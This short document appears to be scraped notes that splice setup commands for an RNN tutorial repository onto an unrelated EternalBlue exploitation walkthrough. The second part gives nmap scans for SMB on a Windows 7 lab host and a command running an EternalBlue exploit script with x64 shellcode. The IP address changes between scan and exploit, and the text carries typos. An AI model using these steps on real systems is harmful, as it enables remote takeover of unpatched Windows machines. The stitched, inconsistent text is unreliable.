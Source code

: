 # Clone the repo
git clone https://github.com/dennybritz/rnn-tutorial-rnnlm
cd rnn-tutorial-rnnlm

# Create a new virtual environment (optional, but recommended)
virtualenv venv
source venv/bin/activate

# Install requirements
pip install -r requirements.txt
# Start the notebook server
jupyter notebook

```
cd /to the dir whre you have requirements.txt/
virtualenv venv1   
source venv/bin/activate
pip install -r requirements.txt
pip list ##to see the list of packages installed.

```

Now take a look at the shellcode.sh this will generate the shellcode.
Now before we do this lets check if the target is vuln or not?

use namp
```
sudo nmap -sV -p 445 -O 10.0.2.5
-- target is win 7
ls -la /usr/share/nmap/scripts | grep smb-

--let's see if this target is vuln to smb- script
nmap -sV -p 445 -O --script=smb- 10.0.2.5 
```

python eternalblue_exploit7.py 10.0.2.6 shellcode/sc_x64.bin 
